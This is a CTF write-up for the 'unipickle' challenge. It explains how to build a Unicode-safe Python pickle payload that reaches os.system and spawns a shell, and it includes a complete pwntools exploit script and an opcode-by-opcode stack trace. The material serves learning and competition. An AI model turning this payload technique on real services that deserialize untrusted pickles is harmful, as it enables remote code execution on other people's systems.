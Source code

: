 # unipickle

i was able to get a first blood!!! so happy about that because i have been working with pickle for so long now if i did not get first blood i would've been so disappointed in myself

## problem

```py
#!/usr/local/bin/python
import pickle
pickle.loads(input("pickle: ").split()[0].encode())
```

(standard pickle chall, but all chars must be unicode encodable)

# solution

we can look at [pickle.py](https://github.com/python/cpython/blob/3.10/Lib/pickle.py) in the python source code and see what opcodes are unicode-friendly

notably, the `STACK_GLOBAL` opcode is not unicode friendly by itself (it uses the `\x93` byte)

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/146ed390-c045-4899-badc-50cccda4d6a3)

`GLOBAL` and `INST`, the other two ways to get arbitrary classes, are not possible because the `.split()[0]` in the problem makes it impossible to have any tabs, spaces, or newlines. both of these opcodes require newlines to pass in arguments for the opcodes, so this is not possible.

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/0acfd359-c244-4c3b-8cbe-a38393418651)

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/fe702141-ace4-423b-bd96-b5fd28a1de04)

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/a9993495-5150-4f70-a5ad-be83515601bf)

therefore, we must find a way to use `STACK_GLOBAL`

we can get access to it by throwing away an arbitrary byte that is attached before it to make it valid unicode. notably, `b'\xc7\x93'` is a valid unicode character, for some reason. so, if we can discard the c7 byte, we can achieve RCE

i found that out by enumerating over a large range of integers (like 0 to 20000) and using chr() and decoding and encoding it to see if it sticked, and also only outputting the ones that have `\x93` byte in them

```py
for v in range(20000):
    if b'\x93' in chr(v).encode('utf-8'):
        print(v, chr(v).encode('utf-8'))
```

then, we can discard the `\xc7` by using `BINGET`, which takes a byte argument and retrieves the item assigned to byte c7 from memo and puts it on the stack. 

in this case, the item was `"system"`, and the previous item on the stack was `"os"`, so stack global gets us os.system

therefore, we can use `STACK_GLOBAL` to produce os.system, and then we can spawn a shell.

```py
from pwn import *
from pickle import *

p = remote("mc.ax", 31773)

bs = lambda _: SHORT_BINSTRING + int.to_bytes(len(_), 1, 'big') + b"" + _.encode() + b""

q = (bs('os') + bs('system') + BINPUT + b'\xc7\x88' + POP + POP + BINGET + b'\xc7\x93' + MARK + bs('sh') + TUPLE + REDUCE + STOP)

print(q)
print(q.split())

p.sendline(q)

p.interactive()
```

also, we had to use `SHORT_BINSTRING` because it uses all unicode-compliant characters (we cannot use binunicode opcode because it requires `\n` iirc)

also, we don't need `PROTO` because it is assumed as 0, which is fine i guess

what the payload does to the stack and memo is below

```
bs('os') + bs('system') + BINPUT + b'\xc7' + '\x88' + POP + POP + BINGET + b'\xc7' + '\x93' + MARK + bs('sh') + TUPLE + REDUCE + STOP
=====================
start of pickle
["os"] {} - put os on the stack
["os", "system"] {} - put system on the stack
["os", "system"] {199: "system"} - store system at 0xc7 in memo
["os", "system", True] {199: "system"} - put True on the stack to make the 0xc7 compliant with unicode
["os", "system"] {199: "system"} - pop the unnecessary True
["os"] {199: "system"} - pop system since we have to binget it later
["os", "system"] {199: "system"} - binget system in memo at 0xc7
[os.system] {199: "system"} - stack global with another byte for unicode compliance
[os.system, MARK] {199: "system"} - put MARK on the stack (we cannot use TUPLE1, but we can use TUPLE opcode)
[os.system, MARK, "sh"] {199: "system"} - put sh on the stack
[os.system, ("sh",)] {199: "system"} - put sh into a tuple by itself
[None] {199: "system"} - execute the payload
end of pickle
```

took me about 20 minutes to first blood it when i first saw the challenge, but it was a bit after the ctf started and somehow i was able to firstblood it still

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/517144e2-695b-438e-8272-a3df9788e0ec)
